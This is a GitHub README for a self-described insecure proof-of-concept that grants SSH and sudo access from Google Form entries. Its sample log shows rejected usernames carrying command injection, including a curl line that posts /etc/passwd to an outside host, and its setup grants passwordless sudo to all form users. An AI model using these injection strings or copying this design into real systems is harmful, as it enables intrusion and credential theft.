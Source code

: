 # Gdocs User Manager
This script manages ssh user and sudo access via... GOOGLE DOCS!

The way this works is simple:

A user logs into their work gmail account. Once logged in, they can see a Google Form, which allows them to input the following three things for themselves:
  * full name
  * ssh username
  * ssh public key

![](http://i.imgur.com/PCLv7Hg.png)

After they submit their form, their information is automatically added to a spreadsheet

![](http://i.imgur.com/4xM9E4b.png)

Now all we need is a backend service that scrapes and verifies this spreadsheet :-)

An administer can also edit the spreadsheet and toggle some additional "hidden flags" that do things like purge a user from the system.

This is just a proof-of-concept and has security issues. Please don't use it for anything other than for fun.

For production you should use ldap + kerberos. That's the industry standard for managing ssh access.

## Why in the world...
This project was the result of brainstorming ideas for solving the following problems:

1. Allow an authenticated user to self-manage their ssh-keys
2. Allow an engineer with NO shell/linux experience to administer those users
3. Easily control access to those engineers
4. Be near real-time (less than 5 minutes from update to rollout)
5. Zero time from engineers spent rolling out keys

Google Forms/Sheets is actually a good choice for this project. Everyone knows how it works. It has incredible uptime and uses secure endpoints. It also has a well-documented API and allows for a staggering 10 million requests a day _for free_. That means you can have almost 7000 hosts update every minute using a free api key!

It also has some additional features that are useful for this task: a user can only submit data once. And once submitted, they can edit it at their on leisure. They don't have access to the backend spreadsheet, just their "answer".

The Form allowed a simple way for everyone in the organization to update (read: self-service) their own ssh-key key. It forced authentication and was about as easy to use as it gets.

The backend to Google Forms is actually just a spreadsheet that's easy to read and parse. Write access to the spreadsheet can be "shared" with someone else at the company and they can manage it without needing any linux experience.

## Requirements
You'll need the following things:
1. The script in this repo
2. The install script.
3. A google API user w/ credentials

## Let's get started
### Create the Google Form
You'll need to create a form that has the following text boxes. These are case sensitive so please make sure they match exactly. Or you can change the lines in the script to be your custom field.

* ```SSH username```
* ```Username```
* ```SSH Public Key```

On the document, make sure you check only the following two boxes. Note, in the picture you don't see some of the boxes because the form wasn't made with a business account:
* Require <ORGANIZATION> login to view this form
* Automatically collect respondent's <ORGANIZATION username
* Only allow one response per person (requires login)
* Allow responders to edit responses after submitting

Name your document and save the name, you'll use it later on when setting environment variables.

### Create a Google API key
While logged into your organizational email, you'll need to create an API key and then activate google drive API
1. Log into the gmail account that you want to use with this service
2. Go to the Google Developer's Console: https://code.google.com/apis/console
3. Click on "Credentials" under "APIs & auth"
4. Click "Create new Client ID"

That will download your credentials file, which has the necessary information to make API calls out to Google. Download that file and keep it safe.

After that you'll need to authorize the google drive API
1. Click on "APIs" under "APIs & auth"
2. Search for "Drive API" and click on it
3. Click "activate"

### Share the Form backend with your API email
This step is important or else you won't be able to see any documents when you make API calls.

Find the Google spreadsheet that's created automatically by your Form. The title of this document is what you'll set the environment variable ```DOCUMENT_TITLE``` to on your system.

While you have the document open, share it with the email address that's provided in your credentials file. Again, this step is important! Or else you'll look for documents with the API and won't find any!

You'll see that your backend form is a really simple excel spreadsheet:

### Install the packages
If you're running ubuntu you can simply execute the install script:
```bash
$ ./install_on_ubuntu
...
```

### Set your sudoers file to allow sudo without password
Create a new file called ```/etc/sudoers.d/usermanager and add the following line:
```
%sudo ALL=NOPASSWD: ALL
```

This will allow users to who part of the "sudo" group to sudo without passwords. This isn't strictly necessary but the script automatically adds users to this group.

### Set your environment variables
This script uses the environment variable ```CREDENTIALS_FILE```. This variable must be a full-path to your credentials file that you got back from Google.

The second variable you'll need to set is ```DOCUMENT_TITLE```. This is the the name of the spreadsheet that serves as the "backend" to your Google form. For example ```SSH Access Request```.

## Phew. All set up.
Take a deep breath and hold on to you butts. The script should execute without any problems. It will add users if they are specified in the document.

```
[WARNING] Adding stephen to system
[WARNING] Adding Alice to system
[WARNING] Adding Frank to system
```

If somebody used a non-safe username, then you'll see errors like this:
```
[WARNING] Invalid user "; touch /tmp/pwned". Username must contain letters only!
[WARNING] Invalid user "; curl -XPOST http://mydomain.com -d@/etc/passwd". Username must contain letters only!
```

# Last words and warnings
I want to reiterate again that this was just a fun experiment and not fit for production. I do think there's value to using forms such as this and the API to scrape and do things with data, but not for ssh user access.

There are a few security issues:
1. Almost without exception should you never shell-out with user-supplied data.
2. There's no granularity. This grants sudo access to everyone who can submit a form
3. I did my best to sanitize the user inputs, but I don't trust it. Does anyone know of a better python library for this?
